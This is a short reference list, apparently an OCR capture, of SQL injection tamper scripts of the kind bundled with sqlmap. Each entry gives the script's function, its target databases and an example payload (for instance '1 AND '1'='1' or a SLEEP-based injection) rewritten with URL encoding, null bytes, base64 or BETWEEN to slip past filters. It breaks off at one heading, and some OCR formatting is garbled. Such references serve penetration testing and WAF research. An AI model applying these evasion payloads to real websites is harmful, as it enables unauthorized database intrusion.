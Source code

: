 # apostrophemask.py

**Function: Encoding quotation marks with utf8**

**Platform: All**

> _example_

1 AND ‘1’=’1 ==> 1 AND %EF%BC%871%EF%BC%87=%EF%BC%871

# **apostrophenullencode.py**

**Function: ‘ ==> %00%27**

**Platform: All**

> _example_

1 AND ‘1’=’1 ==> 1 AND %00%271%00%27=%00%271

# appendnullbyte.py

**Function: Space ==> %00**

**Platform: Microsoft Access**

> _example_

1 AND 1=1 ==> 1 AND 1=1%00

# base64encode.py

**Function: base64 encode**

**Platform: All**

> _example_

1' AND SLEEP(5)# ==> MScgQU5EIFNMRUVQKDUpIw==

# between.py

**Function: > ==> NOT BETWEEN 0 AND**

**Platform: Mssql2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0**

> _example_

1 AND A > B — ==> 1 AND A NOT BETWEEN 0 AND B — \`\`\`、\`\`\`1 AND A = B — ==> 1 AND A BETWEEN B AND B —

# bluecoat.py
